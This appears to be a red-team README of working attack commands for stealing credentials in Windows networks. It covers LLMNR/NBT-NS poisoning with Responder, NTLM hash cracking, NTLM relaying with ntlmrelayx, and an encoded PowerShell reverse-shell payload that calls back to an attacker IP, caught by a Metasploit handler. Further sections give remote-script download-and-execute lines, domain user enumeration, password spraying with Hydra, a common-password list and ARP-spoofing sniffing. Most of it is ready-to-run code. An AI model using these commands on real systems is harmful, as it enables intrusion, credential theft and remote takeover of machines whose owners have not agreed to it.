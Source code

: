 ## LLMNR & NBT-NS Poisoning
- The victim wants to go to the print server at \\printserver, but mistakenly types in \\pintserver.
- The DNS server responds to the victim saying that it doesn’t know that host.
- The victim then asks if there is anyone on the local network that knows the location of \\pintserver.
- The attacker responds to the victim saying that it is the \\pintserver.
- The victim believes the attacker and sends its own username and NTLMv2 hash to the attacker.
- The attacker can now crack the hash to discover the password.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen1.png?raw=true)

### Responder
```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

## Network Windows Authentication Cracking
### NTLMv1 (Net-NTLMv1) Crack
```
john --format=netntlm hash.txt
hashcat -m 5500 -a 3 hash.txt
```

### NTLMv2 (Net-NTLMv2) Crack
```
john --format=netntlmv2 hash.txt
hashcat -m 5600 -a 3 hash.txt
```

## NTLM Relaying
- SMB Signing must be disabled, and this is the default setting except for the domain controllers.
- Relay the hashes to another machine.
- User must have admin access on this machine.

### Responder with SMB & HTTP Disabled (in Responder.conf)

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen2.png?raw=true)

```
git clone https://github.com/SpiderLabs/Responder
python Responder.py -I eth0 -wrf
```

### Determine the machines that have SMB signing disabled

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen3.png?raw=true)

### Powershell Reverse Encoded Shell
```
import base64
ip = '10.10.12.133' # your reverse shell ip
port = 4444 # your reverse shell port
payload = '$client = New-Object System.Net.Sockets.TCPClient("%s",%d);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
payload = payload % (ip, port)
cmdline = "powershell -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print cmdline
```

### Run ntlmrelayx.py script and pass to it the encoded reverse shell.
```
git clone https://github.com/SecureAuthCorp/impacket
python3 ntlmrelayx.py -smb2support -tf targets.txt -of result -debug -c 'powershell -e EnCoDeDShElL'
```

### Metasploit multi handler to receive the shell.
```
msfconsole
use exploit/multi/handler
set payload windows/shell/reverse_tcp
set lhost 10.0.2.15
set lport 4444
set ExitOnSession False
exploit -j
```

### Overall Process Overview
Machine 10.0.2.7 asks for an unknown host, then the attacker machine 10.0.2.15 responds to it with its own IP address, then machine 10.0.2.7 sends its credentials to the attacker machine 10.0.2.15 on port SMB, then the attacker machine takes these credentials and relays them to another machine 10.0.2.6, then machine 10.0.2.6 executed our reverse shell and the shell get back to us at 10.0.2.15.

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen4.png?raw=true)

## Internal Password Spraying

### Get domain users using Kerberos
```
dig _ldap._tcp.dc._msdcs.Domain_Name // Find Domain Controller
nmap -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='domain.local',userdb=users.txt 10.196.1.13
```

### Get domain users using powerview
```
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1");
Get-DomainUser | select samaccountname > users.txt
```

### Get domain users using rpcclient
```
nmap -Pn -sS -p389,88 --open 10.10.0.0/16 // Find Domain Controller

rpcclient -U "" -N 10.10.1.50 // Authenticate Using Null Session
rpcclient -U "MEGA\hsaad" 10.10.1.50 // Authenticate Using Domain User & Password
>> enumdomusers // Enumerate All Domain Users
```

### Get domain password policy using powerview

```
(Get-DomainPolicy)."SystemAccess"
```

### Get domain password policy using rpcclient
```
>> getdompwinfo
```

### Password Spraying Using Hydra

Don't forget the lockout threshold if it exists, for example, if it set for 5 tries in 30 minutes, then can only try 4 failed attempts on every account every 30 minutes.
```
hydra -V -L users.txt -P pass.txt -m MEGA.local -t 1 10.10.1.50 smb
hydra -V -L users.txt -e nsr -m MEGA.local -t 1 10.10.1.50 smb
```

### Password Spraying Using DomainPasswordSpray
By default, the tool will enumerate the users in the domain, then will filter from them any disabled account or any account that reaches the limit of the lockout.
```
IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/dafthack/DomainPasswordSpray/master/DomainPasswordSpray.ps1");
Invoke-DomainPasswordSpray -Password Spring2017
Invoke-DomainPasswordSpray -UserList users.txt -PasswordList passlist.txt
```

### Common Passwords
```
12345
123456
123456789
P@ssw0rd
P@ssword
P@ssword@123
password@123
Company_name@123
admin@123
```

## Sniffing

### ARPspoof
```
echo 1 > /proc/sys/net/ipv4/ip_forward // To enable traffic forwarding
arpspoof -i eth0 -t 10.0.2.6 -r 10.0.2.1
```

### Wireshark

Search For Passwords

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen5.png?raw=true)

Follow TCP Stream

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen6.png?raw=true)


### Ettercap

![alt text](https://raw.githubusercontent.com/hassan0x/RedTeam/main/FindCredentials/Screen7.png?raw=true)

URL: https://vimeo.com/368434044​
